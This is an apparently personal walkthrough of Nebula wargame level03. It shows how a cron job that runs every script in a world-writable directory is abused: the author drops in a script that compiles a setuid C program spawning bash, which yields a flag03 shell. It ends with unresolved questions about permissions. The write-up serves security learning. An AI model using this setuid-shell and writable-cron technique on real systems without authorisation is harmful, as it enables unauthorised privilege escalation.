 # For level03 in nebula

>Check the home directory of flag03 and take note of the files there.
>  
>There is a crontab that is called every couple of minutes.
>  
>To do this level, log in as the level03 account with the password level03. Files for this level can be found in /home/flag03.

There is no source code given.

### Seeing what is goes on

There are only a file `writable.sh` and a directory `writable.d`.
```
level03@nebula:~$ cd /home/flag03
level03@nebula:/home/flag03$ ls
writable.d  writable.sh
```

This is the shell script in `writable.sh`:
```
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
It iterates through everything in the directory `writable.d`, runs them, then deletes them. `(ulimit -t 5; bash -x "$i")` is run in a [subshell](https://www.gnu.org/software/bash/manual/html_node/Command-Grouping.html).

`ulimit -t 5` limits the shell and its processes to 5 seconds of CPU time. 

`bash -x "$i"` runs the file whose name is in variable `$i`. 



Ok... Cool to know. ¯\(°_o)/¯. So what?

Then, I realised that the `crontab` that was called very couple of minutes was *that* shell script.
```
level03@nebula:/home/flag03$ touch writable.d/test{1..3}
level03@nebula:/home/flag03$ ls writable.d
test1  test2  test3
level03@nebula:/home/flag03$

---after a few minutes---

level03@nebula:/home/flag03$ ls writable.d
level03@nebula:/home/flag03$
```
Okay, cool. And now what? ¯\_(⊙︿⊙)_/¯ 

Our goal, as always, is to get the output "You have successfully executed getflag on a target account" from executing the command `getflag` as user `flag03`. How exactly is `crontab` going to help us achieve that?

Recall that in the previous levels, we learnt about *setuid programs*. We made use of one such program to change the process' real UID to our desired user, then spawned a bash shell as said user. Let's take a moment to think how we can use that knowledge here.

Hint:
>Each user has their own crontab, and commands in any given crontab will be executed as the user who owns the crontab. [source](https://linux.die.net/man/5/crontab)

### Winning strategies (or so I thought)

- Solution 1: Unlike the previous levels, there is no setuid program here owned by `flag03`. So, let's create our own. 
```
level03@nebula:~$ cat attempt1.c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>

int main() {

	uid_t euid = geteuid();
	gid_t egid = getegid();
	
	setresuid(euid, euid, euid);
	setresgid(egid, egid, egid);
	
	system("/bin/bash");
}
```
We create a bash file in `/home/flag03/writable.d` to compile the C program and set its `setuid` bit.
```
level03@nebula:~$ cat attempt1.sh 
gcc -o /home/flag03/a.out /home/level03/attempt1.c; chmod +x /home/flag03/a.out; chmod +s /home/flag03/a.out
level03@nebula:~$ cp attempt1.sh /home/flag03/writable.d/
level03@nebula:~$ ls /home/flag03/writable.d/
attempt1.sh
level03@nebula:~$ 
```
`Cron` should compile `attempt1.c` into an executable setuid program that we can later call to spawn us a shell as user `flag03`.

```
--- after a few minutes ---

level03@nebula:~$ ls /home/flag03/writable.d/
level03@nebula:~$ ls /home/flag03/
writable.d  writable.sh
level03@nebula:~$ 
```
What the hell? Where is my `a.out`? Since `/home/flag03/writable.d/attempt1.sh` is deleted, that means `cron` ran that bash script. But `a.out` is nowhere to be found! ٩(╬ʘ益ʘ╬)۶

Temporary setback... I have another solution in mind.


- Solution 2: Our goal is to get the output "You have successfully executed getflag on a target account" from executing `getflag` as `flag03`, so why not just execute `getflag` in the bash script directly instead of beating around the bush?

```
level03@nebula:~$ echo -e '/bin/getflag >> /tmp/output' > attempt2.sh && chmod +x attempt2.sh && cp attempt2.sh /home/flag03/writable.d/attempt2.sh && touch /tmp/output && ls /home/flag03/writable.d
attempt2.sh
level03@nebula:~$ 
```
`/bin/getflag >> /tmp/output` executes `/bin/getflag` and pipes its output to `/tmp/output`. When `cron` runs this bash script, it will execute `/bin/getflag` as `flag03`, and we get our output in `/tmp/output` (at least ideally).

```
--- after a few minutes ---

level03@nebula:~$ cat /tmp/output 
level03@nebula:~$
```
What in the actual hell? Where's my output? Since `/home/flag03/writable.d/attempt2.sh` is deleted, that means `cron` ran that bash script. But `/tmp/output` is empty.

### A solution finally worked

In order for solution 1 to work, I had to move `attempt1.c` and `attempt.sh` to `/tmp`.

```
level03@nebula:/home/flag03/writable.d$ mv /home/level03/attempt1.c /tmp/
level03@nebula:/home/flag03/writable.d$ mv /home/level03/attempt1.sh /tmp/
level03@nebula:/home/flag03/writable.d$ ls
level03@nebula:/home/flag03/writable.d$ cat /tmp/output 
level03@nebula:/home/flag03/writable.d$ nano /tmp/attempt1.sh
level03@nebula:/home/flag03/writable.d$ cp /tmp/attempt1.sh .
level03@nebula:/home/flag03/writable.d$ ls
attempt1.sh

--- after a few minutes ---

level03@nebula:/home/flag03/writable.d$ ls
level03@nebula:/home/flag03/writable.d$ ls ..
a.out  writable.d  writable.sh
level03@nebula:/home/flag03/writable.d$ cd ..
level03@nebula:/home/flag03$ ./a.out 
flag03@nebula:/home/flag03$ getflag
You have successfully executed getflag on a target account
flag03@nebula:/home/flag03$ 
```
It worked!  ᕕ( ᐛ )ᕗ

### Doubts
I have some doubts however, that perhaps you, the reader, may be able to help me solve.

- Doubt 1:
I thought `attempt1.c` had to be in `/tmp` because only that way, `flag03`'s cronjob could read and compile the program.
Afterall, `/tmp` has read and write permissions for all: `drwxrwxrwt  4 root root  160 2018-04-01 08:45 tmp`. 

I thought perhaps `flag03` had no access to `level03`'s directory. But the permissions show that `flag03` and `level03` belong to the same group called `level03`. They have read and execution permissions to each other's directories.
```
drwxr-x--- 1 flag03  level03  80 2018-04-01 08:36 flag03
drwxr-x--- 1 level03 level03 180 2018-04-01 08:25 level03
```
so, it does not make sense to me that a process with `RUID flag03` is unable to compile an executable in `/home/level03`.

- Doubt 2:
I tried to move `attempt2.sh` from `/home/level03` to `/tmp` like I did to solve solution 1, but it still failed to work. (ᗒᗣᗕ)՞
```
level03@nebula:/tmp$ ls
attempt1.c  attempt1.sh  attempt2.sh  level03.c  output
level03@nebula:/tmp$ cat attempt2.sh 
/bin/getflag >> /tmp/output
level03@nebula:/tmp$ ls /home/flag03/writable.d
attempt2.sh

--- after a few minutes  ---

level03@nebula:/tmp$ cat /tmp/output 
level03@nebula:/tmp$ 
```
Please, if you know why it does not work, tell me why. 

### Seeing what cronjob was being run

Just out of curiousity, I decided to see what `cronjob` user `flag03` was running. `flag03@nebula:/tmp$ crontab -l` gave the output `*/3 * * * * /home/flag03/writable.sh`, showing that `writable.sh` was executed every 3 minutes.


END
